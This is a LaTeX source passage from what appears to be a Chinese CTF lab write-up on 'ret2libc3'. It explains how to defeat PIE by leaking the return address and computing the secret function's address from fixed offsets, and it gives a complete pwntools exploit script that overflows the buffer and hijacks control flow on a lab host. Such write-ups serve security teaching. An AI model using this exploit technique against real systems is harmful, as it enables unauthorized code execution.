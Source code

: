 \documentclass{article}
\begin{document}
\section{ret2libc3}
    此题汇编代码与ret2libc2基本一致，唯一的区别是开启了PIE保护。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{7.png}
    	\end{center}
    \end{figure}
    即每次程序加载的基地址都会改变，但是指令间的相对距离不会改变，因此，我们可以把原来跳转的main函数的指令的地址打印出来，再通过相对距离计算出secret函数的地址。首先调试程序，原跳转指令的地址：
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{8.png}
    	\end{center}
    \end{figure}
    即0x555555555346，共6字节，且不论如何变化均为6字节。再在汇编代码中找到main函数中指令的地址为0x00101346, secret函数指令的地址为0x0010126c，于是我们可以写下此段脚本：
    \begin{itemize}
    	\item 脚本3
    	\begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40005)
io.recvuntil("something")
io.send(b'A'*0x64 + b'ABCD1')
io.recvuntil("ABCD")
local_10 = u64(io.recv(8))
io.send(b'a'*0x68 + p64(local_10) + b'b'*0x8)
io.recvuntil("bbbbbbbb")
ori_eip = io.recv(6)
ori_eip = int.from_bytes(ori_eip, byteorder='little', signed=False)
to_eip = ori_eip - int(0x00101346) + int(0x0010126c)
to_eip = to_eip.to_bytes(6, byteorder='little', signed=False)
local_10 -= 49
io.send(b'q'*0x68 + p64(local_10) + b'b'*0x8 + to_eip)
io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
\end{document}

